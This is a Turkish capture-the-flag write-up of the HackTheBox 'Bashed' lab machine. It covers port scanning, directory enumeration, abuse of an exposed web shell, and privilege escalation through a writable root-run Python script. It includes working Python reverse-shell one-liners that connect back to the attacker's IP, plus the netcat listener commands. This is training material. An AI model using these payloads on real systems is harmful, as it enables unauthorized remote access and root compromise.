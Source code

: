 ```yaml
---
title: Bashed
date: 2024-03-27 12:03:12 
categories: [HackTheBox]
tags: [Linux]  
image: /images/bashed.webp
---
```


<a href="https://app.hackthebox.com/machines/Bashed">Bashed</a>

## User Flag

nmap başlatalım.

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.10.68               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 06:14 EDT
Nmap scan report for 10.10.10.68 (10.10.10.68)
Host is up (0.076s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.27 seconds
````

Sadece http servisi çalışıyor gözüküyor. Websitesini ziyaret edelim.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Bashed/images/1.png?raw=true)


Sitede dikkatimi çeken bir durum olmadı gobuster ile alt dizin taraması başlatıyorum.

````bash
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/common.txt --url http://10.10.10.68  -t40  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
````

Bulunan /dev dizini dikkatimi çekti. Dizinde phpbash.php dosyası mevcut.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Bashed/images/2.png?raw=true)

Bu dosya websitesi içerisinde bize shell veriyor. Daha rahat çalışmak için reverse shell koduyla makinemize shell alalım.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
`nc -nvlp 1234`


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Bashed/images/3.png?raw=true) 

Böylece user flagı almış olduk. Sıra yetki yükseltip root flagı almaya geldi.

## Root Flag

````
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
````

sudo -l komutunu kullandığımızda şifre olmadan scriptmanager kullanısına geçebileceğimizi gördüm.

`sudo -u scriptmanager /bin/bash`

sciptmanager kullanısı ile www-data nın izni olmayan /script klasörüne gidebiliriz.


````bash
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
cat test.txt
testing 123!
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Mar 29 03:28 test.txt
````

Sistem test.py dosyasını belirli bir süreyle çalıştırıyor ve çıktısı test.txt içerisine yazılıyor. test.txt root kullanıcısına ait, test.py dosyasını değiştirme iznimiz var bu sayede dosyayı değiştirerek root kullanıcına geçebiliriz.

Kullanacağım payload:
`nc -nvlp 1235`
`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.4\",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py`

Biraz bekledikten sonra shell geliyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Bashed/images/4.png?raw=true)


![fsoc](/images/fsoc.gif)
